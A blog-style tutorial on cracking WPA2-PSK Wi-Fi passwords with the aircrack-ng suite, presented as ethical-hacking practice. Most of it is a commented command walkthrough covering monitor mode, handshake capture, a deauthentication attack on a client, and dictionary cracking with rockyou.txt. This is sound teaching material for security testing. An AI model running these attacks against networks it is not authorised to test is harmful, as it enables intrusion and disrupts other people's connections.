 ```yaml
---
title: Password Cracking WPA2-PSK Networks
author: Kevin Tarus
date: 2023-06-02 16:51:00 +0300
categories: [Hacks]
tags: [WPA2, wifi, mac address, kali linux, airmon-ng]
---
```


## What Activities Ethical Hackers perform on Wireless Networks
- Evaluating strength of PSK
- Reviewing nearby networks, rogue devices
- Assessing guest networks
- Checking network access

## Tools used
- Wireless card that supports dual band, monitor mode and packet injection. => [Plug and Play Wireless card](https://amzn.to/3RQ6XCr)
- Router
- Laptop

## Hacking Process
![Hacking Process](/assets/wpa2.png)

```plaintext
iwconfig                        #check the wireless network configurations, check if usb wireless card is working
airmon-ng check kill            #kill processes that may interfere with what we are about to do
airmon-ng start wlan0           #allows wireless card to monitor incoming traffic, where "wlan0" is name of your wireless card
iwconfig                        #confirm whether monitor mode has been enabled

airodump-ng wlan0mon            #finding the wireless network we want to specifically attack

#bssid - mac address of access point
#PWR(power level) - the lower the number the closer we are to the device
#beacons and data - show traffic happening on those bssids

airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon     #tries to capture the 3 way handshake
#-c = channel of the device
#-w capture = name of the file where the capture will be stored

#to speed the above process, do the deauth attack
#open another terminal
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 50:C7:BF:8A:00:74 wlan0mon       #will deauthanticate this device 50:C7:BF:8A:00:74 from the network to capture the 3 way handshake
#-0 = deauth attack
#1 = only one time
#-c = client we want to deauth

aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap              #tries capturing the password by comparing it to a wordlist
#-b = Acess Point mac address

wireshark capture.cap              #monitor captured traffic in wireshark, search for eapol

aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt             #using a popolar wordlist with over 1 million entries
```

This attack will only work when the network uses **WEAK PASSWORDS**
